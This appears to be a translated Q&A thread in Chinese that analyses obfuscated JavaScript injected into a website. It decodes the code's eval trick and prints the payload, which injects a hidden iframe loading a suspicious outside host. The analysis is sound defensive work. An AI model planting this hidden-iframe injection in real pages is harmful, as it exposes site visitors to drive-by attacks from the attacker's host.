 ```
v = "e" + "va";
if (v) e = window[v + "l"]; 
```

正如你所看到`e`的`window['eval']`，或者简单地说`eval`。

所以，如果你更换：

```
if (v && e && r && z && h && s && f && v) e(s); 
```

和：

```
if (v && e && r && z && h && s && f && v) console.log(s); 
```

然后，您可以看到这段代码的目的是什么。我这样做了，这是输出的内容：

```
if (document.getElementsByTagName('body')[0]) {
    iframer();
} else {
    document.write("<iframe src='http://kyubdyyyb.lookin.at/?go=2' width='10' height='10' style='visibility:hidden;position:absolute;left:0;top:0;'></iframe>");
}

function iframer() {
    var f = document.createElement('iframe');
    f.setAttribute('src', 'http://kyubdyyyb.lookin.at/?go=2');
    f.style.visibility = 'hidden';
    f.style.position = 'absolute';
    f.style.left = '0';
    f.style.top = '0';
    f.setAttribute('width', '10');
    f.setAttribute('height', '10');
    document.getElementsByTagName('body')[0].appendChild(f);
} 
```

我不知道是什么`http://kyubdyyyb.lookin.at/?go=2`，所以*我建议你**不要**去那里*。

这里似乎有很多多余的检查（比如`(e) ? z : 12`，`e`永远不会是假的）。可能只是为了让代码更混乱。

* * *

## 回答 #2

> 赞同：10
> 
> 时间：2012-05-18T18:51:29.463

我知道这不是一个直接的答案，但看起来已经实现了他们想要做的事情。注入将在您的网站上运行的任意脚本，以执行恶意操作。

谷歌搜索“avasv=prototype”基本上只是列出了大量受感染的站点，但少数看起来没有恶意的点击表明这是一个脚本解包程序。
